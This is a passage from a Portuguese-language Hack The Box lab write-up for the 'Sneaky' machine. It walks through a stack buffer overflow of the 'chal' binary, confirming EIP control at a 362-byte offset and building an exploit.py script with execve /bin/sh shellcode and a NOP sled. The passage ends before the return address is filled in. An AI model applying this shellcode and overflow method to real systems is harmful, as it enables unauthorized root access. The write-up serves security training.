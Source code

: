 362 Bytes é o ponto exato que começa a sobrescrever o EIP, vamos testar pra ver se é por ali mesmo?

`r $(python -c 'print "A"*362 + "BBBB"')`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_chal8.png)

Sim! Como temos BBBB no EIP quer dizer que conseguimos controlar ele

Bom, sabendo que o NX está desabilitado nessa máquina, sabemos que podemos executar códigos direto na Stack (pilha de execução). Então vamos fazer isso

Devemos saber qual código queremos que seja executado na Stack, para isso pesquisamos por shell codes na internet

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_sh.png)

> http://shell-storm.org/shellcode/files/shellcode-811.php

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_sh1.png)

Bom agora vamos começar a montar nosso exploit que será utilizado

Iremos utilizar a técnica do `Nop Sled`, o que é isso? Por exemplo, não precisamos saber exatamente o ponto que está o EIP, sendo um ponto próximo, nós povoamos o payload com \x90, que é null, não faz nada, ele vai "escorregando" até chegar no buffer

exploit.py
```
# Tamanho do buffer

BUFFER_SIZE=362

#ShellCode utilizado

SHELL_CODE = "\x31\xc0\x50\x68\x2f\x2f\x73"
SHELL_CODE += "\x68\x68\x2f\x62\x69\x6e\x89"
SHELL_CODE += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
SHELL_CODE += "\xcd\x80\x31\xc0\x40\xcd\x80"

#Nops

NOP_SLED = "\x90"*(BUFFER_SIZE-len(SHELL_CODE))

EIP = ?

PAYLOAD = NOP_SLED + SHELL_CODE + EIP
print PAYLOAD
```

Agora vamos descobrir o local do EIP na memória, pra isso temos que ir na máquina Sneaky e abrir o `Chal` no gdb

`gdb /usr/local/bin/chal`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip.png)
